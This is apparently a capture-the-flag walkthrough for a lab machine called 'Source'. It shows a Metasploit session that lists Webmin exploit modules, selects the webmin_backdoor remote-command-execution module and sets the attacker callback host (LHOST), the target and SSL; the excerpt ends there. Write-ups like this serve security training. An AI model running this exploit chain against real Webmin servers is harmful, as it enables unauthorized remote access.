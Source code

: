 
![image](https://github.com/user-attachments/assets/d2987222-9565-4ac2-bbff-c715424d452a)

<h2 align="center">$$\textcolor{white}{\textnormal{Added domain name and Target IP to /etc/hosts}}$$</h2>

<br>


<h2 align="center">$$\textcolor{white}{\textnormal{Checked the CA: root@source}}$$</h2>

![image](https://github.com/user-attachments/assets/27ee5f74-ab8a-40a3-bdec-47a66cba6603)

<br>


<h2 align="center">$$\textcolor{white}{\textnormal{Used Metasploit framework}}$$</h2>

```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .


Interact with a module by name or index. For example info 12, use 12 or use exploit/linux/http/webmin_backdoor
After interacting with a module you can manually set a TARGET with set TARGET 'Automatic (Linux Dropper)'

msf6 >  use 10
...
msf6 exploit(linux/http/webmin_backdoor) > show options
...
sf6 exploit(linux/http/webmin_backdoor) > set LHOST AttackIP
LHOST => AttackIP
msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS TargetIP
RHOSTS => TargetIP
msf6 exploit(linux/http/webmin_backdoor) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
```